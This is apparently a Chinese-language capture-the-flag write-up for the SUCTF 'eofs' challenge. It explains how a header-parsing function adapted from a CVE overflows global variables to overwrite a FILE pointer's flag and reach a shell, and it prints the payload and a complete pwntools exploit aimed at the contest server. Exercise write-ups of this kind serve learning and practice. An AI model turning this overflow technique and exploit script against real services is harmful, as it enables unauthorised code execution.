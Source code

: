 ```yaml
---
title: eofs
categories:
- SUCTF招新赛
---
```

# SUCTF->eofs

## 前言

这个招新赛的题目比较简单，去做了几道简单题，这是第一次接触文件的题，现学的文件，最后还是没做出来，中间还是有一些经验，比如看到一个不太正常的函数名(lookForHeader)最好先去查一下这个函数，说不定就是哪个CVE改编来的，看之前的CVE复现或者讲解有利于做题，不能闷头做

## 程序逻辑

程序的main函数里打开了同级目录下的readme.txt，句柄为fd，此时注意fd并不是局部变量，而是位于bss段的0x602180的全局变量，后面从标准输入中读取最多0x1F40-1字节的数据，观察s的位置，并不能覆盖返回地址或者哪里，再往下看su_server

![main](./1.jpg)

su_server先以时间为种子生成随机数，之后清空host、username和researchfield等几个bss段全局变量的值，其中host地址为0x602220、username地址为0x6021a0、researchfield地址为0x602100.v3随机数先赋值给0x60229F、0x60221F、0x60217F等三个地址，之后用户输入作为参数传入lookForHeader函数，下面if的条件是只要上面三个地址任意一个值不为v3就为真。之前v3已经被赋值了，这里不再相等要么溢出到v3修改掉，要么之前的三个地址里有一个被覆写掉。亦或者有个地址任意写最好。假设现在进了条件，要进入secret()拿到shell，还得让fd->_flag == 0xdeadbeef，即0x602180的值为0xdeadbeef的地址，观察一下地址之间的差值，发现是可以通过覆写host、username、researchfield的值来改掉三个变量，只要lookForHeader里的函数有溢出漏洞即可，并且由于fd和researchfield之间为0x80的距离，是很有可能被溢出的，下面继续看lookForHeader

![su_server](./2.jpg)

lookForHeader其实是一个CVE里的漏洞函数，做题的时候没有去查蛮遗憾，但是实际上这个函数也并不难理解，是自己的逆向的水平太低，看代码看不来，以后需要提高这方面的水平.

lookForHeader的注释标注了逻辑，也就是说我们需要构造几个相同格式的字符串部分以造成溢出，进而覆写fd

![lookForHeader](./3.jpg)
![lookForHeader2](./4.jpg)

## 数据构造

首先绕过su_server里的srncmp，即payload = 'GET / HT',看起来好看一点的话就全留下来好了
```
payload = 'GET / HTTP/1.1#'
payload += 'Host:127.0.0.1#'
payload += 'Username:xmzyshypnc#'
payload += 'ResearchField:'
payload += p64(0xdeadbeef)
payload += 'a'*0x38+'#'
payload += 'ResearchField:'+'a'*0x40+p64(0x602100)+'#'
```
又因为0x60217F在溢出范围内，所以if也可以进去，下面是exp

## exp.py

```python
#coding=utf-8
from pwn import *
debug = 0
context.update(arch='amd64',os='linux',log_level="DEBUG")
if debug:
    sh = process('./eofs')
else:
    sh = remote('43.254.3.203',10002)
#gdb.attach(sh)

payload = 'GET / HTTP/1.1#'
payload += 'Host:127.0.0.1#'
payload += 'Username:xmzyshypnc#'
payload += 'ResearchField:'
payload += p64(0xdeadbeef)
payload += 'a'*0x38+'#'
payload += 'ResearchField:'+'a'*0x40+p64(0x602100)+'#'

print payload
sh.sendline(payload)
sh.interactive()
```

## flag

![flag](./6.jpg)

